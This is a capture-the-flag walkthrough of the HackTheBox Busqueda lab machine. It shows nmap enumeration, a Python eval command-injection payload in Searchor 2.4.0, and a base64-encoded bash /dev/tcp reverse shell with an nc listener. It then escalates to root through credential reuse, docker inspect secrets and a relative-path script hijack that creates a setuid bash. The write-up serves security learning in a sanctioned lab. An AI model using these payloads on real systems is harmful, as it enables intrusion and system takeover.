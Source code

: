 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Busqueda machine Walkthrough"
date: "2025-01-20"
description: ""
tags: ["Hackthebox", "Machine-Walkthrough"]
cover:
    image: "/writeups/busqueda-HackTheBox/cover.jpg"
ShowToc: true
TocOpen: false
---
```



## Enumeration

Run nmap all port scanning with the following command:

```
nmap -p- 10.10.11.208 --min-rate 2500 -T4 -oN nmap/allPorts.txt
```

The following is the nmap all ports output:

![[/writeups/busqueda-HackTheBox/2.png]]

As the port 22 and 80 are open. Now run the service enumeration to find out the version of services running on the target. 
The following command was used for the service version enumeration. 
```
nmap -A 10.10.11.208 -p 22,80 -oN nmap/ServiceVersion.txt
```

The result of the command shows below:
![[/writeups/busqueda-HackTheBox/3.png]]

This shows the `searcher.htb` as the hostname. So updated it in the `/etc/hosts` file. 

Visited the website, which is being shown below:

![[/writeups/busqueda-HackTheBox/5.png]]

At the end, the version of the Searchor is shown, which is `Searchor 2.4.0`. Quickly searched if there's any vulnerabilities related to this version. 
I came to know about the Command Injection vulnerability in this version and found an exploit code for that. 

The exploit code can be used to get a reverse shell in easy way. But there's another manual way, through which the command injection vulnerability can be exploited. I have explained both ways below. 

## Exploitation

### Reverse Shell Through the Exploit Code:

The `exploit.sh` is being downloaded from the following Github repository. 
Link: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Command:
```
./exploit.sh http://searcher.htb 10.10.16.17  # For Exploiting the Vulnerability
nc -lvnp 9001 # Listener for the reverse shell
```


The reverse shell is obtained as shown:
![[/writeups/busqueda-HackTheBox/6.png]]

### Reverse Shell in the Manual Way

Opened Burp Suite for gaining access in manual way. 

The site is sending POST request to `/search` with the parameters `engine` and `query` as shown below:
![[/writeups/busqueda-HackTheBox/7.png]]

Added a payload with the value of the query parameter to check if its behaviour changes with special characters. 

Added special character list by SecList as the list:
![[/writeups/busqueda-HackTheBox/8.png]]


After checking I found that it was not giving any result for the characters `' and \`. So, The logic here was, it was executing some python command like eval. 
The logic can be applied that it was doing something like this:
```
eval("print('a')")
```

So, according to the logic the following command will print `aHello`. 
```
a')+print("Hello")#
```

So, tried this

![[/writeups/busqueda-HackTheBox/9.png]]

It printed `Hello`. It means it is executing out python command. 
In order to get command execution I tried the following command:

```python
__import__('os').system('<CMD>')

__import__('os').system('id')

# Final Payload

a')+__import__('os').system('id')#

```

Run the above after URL encoding and we got a code execution as shown below:
![[/writeups/busqueda-HackTheBox/10.png]]

Now, we have to get a reverse shell somehow. 

I used the following bash reverse shell:
```bash
bash -i >& /dev/tcp/10.10.16.157/9001 0>&1


# Encoding it as Base64 

echo 'bash -i >& /dev/tcp/10.10.16.157/9001 0>&1' | base64

```

The final Payload:
```bash
┌──(root㉿kali)-[~/Desktop/htb/Busqueda]
└─# echo 'bash -i &> /dev/tcp/10.10.16.17/9001  0>&1  ' | base64
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK
```

The following will be send as the request
```
a')+__import__('os').system('echo "YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK" | base64 -d | bash')#
```

Got the reverse shell as shown below:
![[/writeups/busqueda-HackTheBox/11.png]]


## Privilege Escalation 

After gaining the initial access, I explored the current directory. It contain a .git folder. The config of the git repository contains a password as shown below:
![[/writeups/busqueda-HackTheBox/12.png]]


I tried logging in for the current user with SSH, and I was successful because this was the password for the current user svc. 
I checked for `Sudo` privilege escalation and found that the current user can run the `system-checkup.py` as root. 
The following shows the result of `sudo -l`:
![[/writeups/busqueda-HackTheBox/13.png]]


I tried, checking the content of this script, but the file was not readable by the current user as shown:

![[/writeups/busqueda-HackTheBox/15.png]]

The file can only be executed, so I tried executing the file as root user with the following command:

```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py
```

The following three commands can be executed with it as shown:
![[/writeups/busqueda-HackTheBox/16.png]]

Seems like the `docker-inspect` can not be executed as it is:
![[/writeups/busqueda-HackTheBox/17.png]]

I checked online for its usage and the following command can be used to get details:
```
docker inspect --format='{{json .Config}}' $INSTANCE_ID

# Adjust it according to our usage:

sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

Run the above command and got this data as shown:
![[/writeups/busqueda-HackTheBox/19.png]]

This gave us another password, which initially didn't understand. But after further enumeration, I figured out that there was another website running on the `gitea.searcher.htb`. This was found on the apache2 enabled sites as shown:
![[/writeups/busqueda-HackTheBox/20.png]]


Added this website in the `/etc/hosts` as well and visited it. This was asking for the username and password. So, used administrator as the username and the above found password as the password. I was able to logged in as an administrator here. 

The script we found earlier were listed here and were readable as shown below:
![[/writeups/busqueda-HackTheBox/21.png]]

So, we can analyse these files to find any vulnerability. 

It is found that when the `full-checkup` argument is provided to the script, it runs `./full-checkup.sh` without full path. So, we can create our own file in any writeable directory and can get reverse shell as root, as root will be executing that file. 


The vulnerable part of the code:
![[/writeups/busqueda-HackTheBox/23.png]]


Created the following code in the `/dev/shm` with name `full-checkup.sh`:
```bash
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

The execute permission is being given to the script and run the following command:
```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Now, the root shell is copied to the `/tmp` folder as shown below. The bash shell is being used with the following command.

```bash
/tmp/bash -p
```

The following shows the result of the commands:
![[/writeups/busqueda-HackTheBox/24.png]]

So, this gives us root access of the machine. 